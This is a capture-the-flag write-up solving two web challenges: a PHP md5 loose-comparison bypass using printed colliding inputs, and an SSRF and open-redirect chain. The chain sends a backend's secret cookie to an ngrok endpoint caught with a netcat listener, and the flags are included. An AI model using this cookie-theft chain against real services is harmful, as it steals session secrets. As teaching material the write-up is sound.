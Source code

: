 
![](Images/Q1.png)

Reading the 1989.php source code, I notice that in order to get the flag, the md5 hash of i1 and i2 have to be the same, yet they cannot be the same.

![](Images/1989-source-code.png)

While searching for possible strings that have md5 hash collision, I came across a [github page](https://github.com/spaze/hashes) on php hash collision. A hashed string that starts with "0E" will be interpreted as "0" by PHP. As such, using "!=" or "==" to compare two hashed strings that starts with "0E" will be considered the same. This [article](https://blog.birost.com/a?ID=01700-1647012b-a964-48a8-b7d5-ed8ff3616103) explains it pretty well. 

Since the length of i1 and i2 cannot be less than 15, we can use the document class strings in the previous article to get our "0E" hashes.

```
i1 = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2


i2 = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

![](Images/1989-flag.png)

```
Flag: CTFSG{you_see_me_in_h1nds1ght_tangled_up_with_you_all_night}
```

![](Images/Q2.png)

Proxy is on port 40101 and backend is on port 40102.

From the backend source code, in /flag, we can see that the flag is returned if the "secret" cookie is of a secret value. In /login, there is a check for this secret value for redirection to another url (next_uri).

![](Images/backend-code.png)

From the proxy source code, we can see that it takes in a uri and send a request to the backend server with the secret value cookie.

![](Images/proxy-code.png)

This seems like an SSRF. In order to test if the request proxying from proxy server to backend works, we can curl the following address:

```
http://chals.ctf.sg:40101/get?uri=flag
```

![](Images/proxy-output.png)

We did a request from the proxy to the backend server. A censored output was returned instead of the "Black Flag" since the r.text is censored. But this already shows that we can send the secret cookie from the proxy server to the backend server. Now, instead of using /flag, we can use /login instead.

```
http://chals.ctf.sg:40101/get?uri=login?next=https://www.google.com
```

![](Images/proxy-login-output.png)

We get a censored output of google. Since our payload is working, we can redirect to our ngrok server to steal the secret cookie.

On Kali machine:

```
>> nc -lvnp 80

>> ngrok 80 http
```

![](Images/cookie-thief.png)

We did a curl to the backend server with the secret cookie, we obtained the flag:

![](Images/curl-secret.png)

```
CTFSG{d0nT_toUcH_mY_c00k13s}
```
